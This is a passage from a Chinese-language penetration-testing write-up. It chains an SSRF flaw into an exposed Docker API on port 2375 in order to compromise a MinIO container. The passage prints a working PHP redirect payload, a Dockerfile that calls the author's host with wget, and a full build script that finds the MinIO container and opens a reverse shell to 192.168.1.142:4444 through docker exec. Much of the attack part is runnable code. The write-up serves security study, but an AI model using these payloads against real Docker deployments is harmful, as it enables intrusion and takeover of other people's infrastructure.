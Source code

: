 这个参数可以传入一个 Git 地址或者一个 HTTP URL，内容是一个 Dockerfile 或者一个包含了 Dockerfile 的 Git 项目或者一个压缩包。

也就是说，Docker API 支持通过指定远程 URL 的方式来构建镜像，而不需要我在本地写入一个 Dockerfile。

所以，我尝试编写了这样一个 Dockerfile，看看是否能够 build 这个镜像，如果可以，那么我的 4444 端口应该能收到 wget 的请求：

```
FROM alpine:3.13RUN wget -T4 http://192.168.1.142:4444/docker/build
```

然后修改前面的 index.php，指向 Docker 集群的 2375 端口：

```
<?phpheader('Location: http://192.168.227.131:2375/build?remote=http://192.168.1.142:4443/Dockerfile&nocache=true&t=evil:1', false, 307);
```

进行 SSRF 攻击，等待了一会儿，果然收到请求了：

![](https://mmbiz.qpic.cn/mmbiz_png/5AsxricGekWgBGia6X7s9uAOQh3cwuezObPFFlicqia5rztazyXicoCmvD3qiavH9ycAMFFNRrFVePCCJSJnq4AaOtDg/640?wx_fmt=png)

完美，我们已经可以在目标集群容器里执行任意命令了。

0x05 拿下 MinIO 容器
----------------

此时离我们的目标，拿下 MinIO，还差一点点，后面的攻击其实就比较简单了。

因为现在可以执行任意命令，我们就不会再受到 SSRF 漏洞的限制，可以直接反弹一个 shell，或者可以直接发送任意数据包到 Docker API，来访问容器。经过一顿测试，我发现 MinIO 虽然是运行的一个 service，但实际上就只有一个容器。

所以我编写了一个自动化攻击 MinIO 容器的脚本，并将其放在了 Dockerfile 中，让其在 Build 的时候进行攻击，利用`docker exec`在 MinIO 的容器里执行反弹 shell 的命令。这个 Dockerfile 如下：

```
FROM alpine:3.13RUN apk add curl bash jqRUN set -ex && \    { \        echo '#!/bin/bash'; \        echo 'set -ex'; \        echo 'target="http://192.168.227.131:2375"'; \        echo 'jsons=$(curl -s -XGET "${target}/containers/json" | jq -r ".[] | @base64")'; \        echo 'for item in ${jsons[@]}; do'; \        echo '    name=$(echo $item | base64 -d | jq -r ".Image")'; \        echo '    if [[ "$name" == *"minio/minio"* ]]; then'; \        echo '        id=$(echo $item | base64 -d | jq -r ".Id")'; \        echo '        break'; \        echo '    fi'; \        echo 'done'; \        echo 'execid=$(curl -s -X POST "${target}/containers/${id}/exec" -H "Content-Type: application/json" --data-binary "{\"Cmd\": [\"bash\", \"-c\", \"bash -i >& /dev/tcp/192.168.1.142/4444 0>&1\"]}" | jq -r ".Id")'; \        echo 'curl -s -X POST "${target}/exec/${execid}/start" -H "Content-Type: application/json" --data-binary "{}"'; \    } | bash
```

这个脚本所干的事情比较简单，一个是遍历了所有容器，如果发现其镜像的名字中包含`minio/minio`，则认为这个容器就是 MinIO 所在的容器。拿到这个容器的 Id，用 exec 的 API，在其中执行反弹 shell 的命令。

最后成功拿到 MinIO 容器的 shell：

![](https://mmbiz.qpic.cn/mmbiz_png/5AsxricGekWgBGia6X7s9uAOQh3cwuezObxQY4E81zbjb9gHsttZQxxfpO98wvqR5HhRqkDcicNvyJ5w7tszn19Mg/640?wx_fmt=png)

当然，我们也可以通过 Docker API 来获取集群权限，这不在本文的介绍范围内了。

0x06 总结
-------
